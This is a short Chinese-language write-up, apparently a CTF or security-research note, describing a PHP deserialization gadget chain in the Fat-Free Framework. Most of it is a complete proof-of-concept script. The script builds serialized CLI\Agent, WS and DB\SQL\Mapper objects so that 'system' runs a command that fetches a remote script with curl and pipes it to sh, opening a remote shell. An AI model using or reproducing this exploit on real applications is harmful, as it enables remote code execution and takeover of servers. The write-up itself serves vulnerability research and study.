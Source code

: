 \CLI\Agent::__destruct()->\CLI\Agen::fetch()->DB\SQL\Mapper::__call()

链子到这里利用就结束了，但是值得注意的是，再这里我们需要的是Agent类。但是，如果直接构造Agent类的话autoload机制就会去加载cli/agent.php，这样显然是会失败的，只能先构造一个ws类，让他加载ws.php

```php
<?php
namespace DB\SQL{
    class Mapper{
        protected $props = array();
        public function __construct()
        {
            $this->props["read"] = "system";
        }
    }
}
namespace CLI{
    class Agent{
        protected $server;
        protected $socket;
        public function __construct($a)
        {
            $this->server = $a;
            $this->socket = "curl https://your-shell.com/49.232.206.37:23456 | sh";
        }
    }
    class WS{
        protected $addr;
        public function __construct()
        {
            $this->addr = new Agent(new \Auth());
        }
    }
}
namespace {
    class Auth{
        public $events = array();
        public function __construct()
        {
            $this->events['disconnect'] = array(new CLI\Agent(new DB\SQL\Mapper()), "fetch");
        }
    }
    echo urlencode(serialize(new CLI\WS()));
}
```

最后这个Auth是似乎是随意的类都可以，不管是否有event这个值都要塞进去，不是很明白，但是在下面这篇文章中相同的链子是用了Log类来为even[]变量赋值为array("disconnect"=>array($b,'fetch')), array($b,'fetch')即为fentch，其中$b为fetch的所属类

这个其余几条链子的讲解

[fatfree3.7.2反序列化探析 - View of Thai](https://www.viewofthai.link/2022/08/07/fatfree3-7-2%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%8e%a2%e6%9e%90/)

